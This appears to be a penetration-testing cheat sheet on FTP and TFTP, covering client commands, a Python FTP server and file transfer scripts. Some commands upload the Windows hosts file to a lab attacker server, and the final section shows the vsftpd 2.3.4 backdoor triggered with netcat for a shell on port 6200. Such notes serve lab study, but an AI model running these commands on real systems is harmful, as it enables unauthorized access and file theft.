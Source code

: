 ```yaml
---
icon: file-chart-column
description: File Transfer Protocol
---
```


# FTP

{% hint style="info" %}
* <mark style="color:purple;">Uses</mark> <mark style="color:orange;">**`Port 20`**</mark> <mark style="color:purple;">for</mark> <mark style="color:purple;">**Data**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">and</mark> <mark style="color:orange;">**`Port 21`**</mark>**&#x20;**<mark style="color:purple;">**for Commands.**</mark>&#x20;
* <mark style="color:purple;">It can use</mark> <mark style="color:orange;">**`UDP`**</mark> <mark style="color:purple;">over</mark> <mark style="color:orange;">**`Port 69`**</mark> <mark style="color:purple;">for</mark> <mark style="color:orange;">**`TFTP`**</mark><mark style="color:purple;">.</mark>
* <mark style="color:purple;">Always check for</mark> <mark style="color:orange;">**`anonymous`**</mark> <mark style="color:purple;">login being enabled.</mark>
{% endhint %}

***

{% hint style="info" %}
### <mark style="color:purple;">Basic Commands</mark>

* <mark style="color:purple;">Start the service:</mark>

{% code lineNumbers="true" %}
```bash
ftp <IP>
tftp <IP>
```
{% endcode %}

* <mark style="color:purple;">To login as any other user:</mark>

```bash
USER <user>
```

* <mark style="color:purple;">To specify a password:</mark>

```bash
PASS <password>
```

* <mark style="color:purple;">Download a file:</mark>

```sh
get <file>
```

* <mark style="color:purple;">Upload a file:</mark>

```sh
put <file_path> <destination_path>
```

* <mark style="color:purple;">Passive mode:</mark>

```sh
passive
```

* <mark style="color:purple;">Change the local directory for downloads:</mark>

```sh
lcd /home/<your-username>
```

* <mark style="color:purple;">Exit the session:</mark>

```shell
quit
```

* <mark style="color:purple;">Transferring files using</mark> <mark style="color:orange;">**`powershell`**</mark><mark style="color:purple;">:</mark>

{% code overflow="wrap" %}
```powershell
(New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')
```
{% endcode %}

* <mark style="color:purple;">Upload a file using</mark> <mark style="color:orange;">**`powershell`**</mark>

```powershell
PS C:\htb> (New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```

* <mark style="color:purple;">If</mark> <mark style="color:orange;">**`anonymous`**</mark> <mark style="color:purple;">login is enabled, use</mark> <mark style="color:orange;">**`curl`**</mark><mark style="color:purple;">:</mark>

```sh
curl -O ftp://<server-address>/path/to/file
```

***

#### <mark style="color:orange;">`TFTP`</mark>

* <mark style="color:purple;">Uses</mark> <mark style="color:orange;">**`binary`**</mark> <mark style="color:purple;">mode for non-text files:</mark>

```sh
mode binary
```

* <mark style="color:purple;">Uses</mark> <mark style="color:orange;">**`ASCII`**</mark> <mark style="color:purple;">mode for text files:</mark>

```sh
mode ascii
```

* <mark style="color:purple;">To look for files in the</mark>  <mark style="color:orange;">**`TFTP`**</mark> <mark style="color:purple;">root:</mark>

```
find / -name file.txt
```
{% endhint %}

***

{% hint style="info" %}
## <mark style="color:purple;">Enumeration</mark>

* <mark style="color:purple;">Is always good practice to look for vulnerabilities:</mark>

```bash
searchsploit <version>
```

* <mark style="color:purple;">Check where you land:</mark>

```bash
pwd
```

* <mark style="color:purple;">List directories:</mark>

```bash
dir
```

* <mark style="color:purple;">This is the default config file for</mark> <mark style="color:orange;">**`TFTP`**</mark> <mark style="color:purple;">--></mark> <mark style="color:orange;">**`tftpd-hpa`**</mark>
{% endhint %}

***

{% hint style="info" %}
### <mark style="color:orange;">`FTP`</mark> <mark style="color:green;">`Python`</mark> <mark style="color:purple;">Server</mark>

* <mark style="color:purple;">First, Install the</mark> <mark style="color:green;">**`Python`**</mark> <mark style="color:purple;">module:</mark>

```sh
sudo pip3 install pyftpdlib
```

* <mark style="color:purple;">Then, set the server:</mark>

```sh
sudo python3 -m pyftpdlib --port 21
```

* <mark style="color:purple;">By default,</mark> <mark style="color:orange;">**`pyftpdlib`**</mark> <mark style="color:purple;">uses</mark> <mark style="color:orange;">**`Port 2121`**</mark><mark style="color:purple;">,</mark> <mark style="color:orange;">**`anonymous`**</mark> <mark style="color:purple;">authentication is enabled by default if we don't set a user and password.</mark>
* <mark style="color:purple;">Allow users to upload files:</mark>

```sh
sudo python3 -m pyftpdlib --port 21 --write
```
{% endhint %}

***

{% hint style="info" %}
### <mark style="color:purple;">Create a command file</mark>

* <mark style="color:purple;">Is possible to create command files and execute then using the</mark> <mark style="color:orange;">**`-s`**</mark> <mark style="color:purple;">flag:</mark>

```sh
ftp -v -n -s:ftpcommand.txt
```

* <mark style="color:purple;">Copy this in to a file to create a script that will</mark> <mark style="color:orange;">**`download`**</mark> <mark style="color:purple;">a file:</mark>

```sh
open 192.168.49.128
USER anonymous
binary
GET file.txt
bye
```

* <mark style="color:purple;">Copy this in to a file to create a script that will</mark> <mark style="color:orange;">**`upload`**</mark> <mark style="color:purple;">a file to the server:</mark>

```sh
open 192.168.49.128
USER anonymous
binary
PUT c:\windows\system32\drivers\etc\hosts
bye
```
{% endhint %}

***

{% hint style="danger" %}
## <mark style="color:purple;">Vulnerabilities</mark>

### <mark style="color:orange;">`vsftpd 2.3.4`</mark>

* <mark style="color:purple;">Connect to</mark> <mark style="color:orange;">**`FTP`**</mark> <mark style="color:purple;">with any username that contains</mark> <mark style="color:orange;">**`:)`**</mark><mark style="color:purple;">, and</mark> <mark style="color:orange;">**`any password`**</mark><mark style="color:purple;">.</mark>
* <mark style="color:purple;">Then connect to</mark> <mark style="color:orange;">**`port 6200`**</mark> <mark style="color:purple;">to get a shell:</mark>

```bash
nc 10.10.10.131 21
```

* <mark style="color:purple;">Now connect to the backdoor:</mark>

```bash
nc 10.10.10.131 6200
```

***


{% endhint %}
